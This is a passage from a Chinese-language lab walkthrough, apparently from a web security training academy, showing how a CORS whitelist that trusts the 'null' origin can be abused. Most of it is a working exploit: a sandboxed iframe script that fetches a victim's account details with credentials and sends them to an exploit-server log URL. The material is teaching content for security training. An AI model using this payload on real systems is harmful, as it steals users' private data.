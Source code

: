 因为我们的域名不在白名单中。

我们可以尝试将原点值设置为 null，看看会得到什么样的响应。

![](img/73b5a07c420aadd6ce9bee2a8b57c9d5.png)

看起来开发者忘记了从白名单中删除 null。

现在，我们需要编写一个脚本来利用这个漏洞获取受害者的数据。

```
<html>
<body>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','[https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true](https://0a73002703504f63c036079300b20068.web-security-academy.net/accountDetails',true));
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='[https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key='+encodeURIComponent(this.responseText);](https://exploit-0a0600c503a24f9ec0e6070d015300d2.exploit-server.net/log?key='+encodeURIComponent(this.responseText);)
    };
</script>"></iframe>
</body>
</html>
```

iframe 将帮助我们用一个空的源发起请求，之后，响应将被添加到我们的日志中。如果我们点击查看我们的漏洞并在拦截器中密切监控我们的流量。
